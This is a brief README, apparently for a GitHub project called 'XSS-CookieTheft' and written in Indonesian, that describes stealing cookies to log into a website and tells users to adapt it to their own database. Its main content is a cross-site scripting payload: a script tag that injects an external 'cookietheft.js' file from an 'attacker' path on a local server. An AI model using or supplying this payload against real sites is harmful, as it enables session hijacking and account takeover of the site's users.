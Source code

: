 # XSS-CookieTheft
Maling cookie untuk login ke sebuah website. Sesuaikan dengan Database yang kalian miliki.

XSS Payload - External JavaScript
`<script src="http://localhost:8089/attacker/cookietheft.js"></script>`
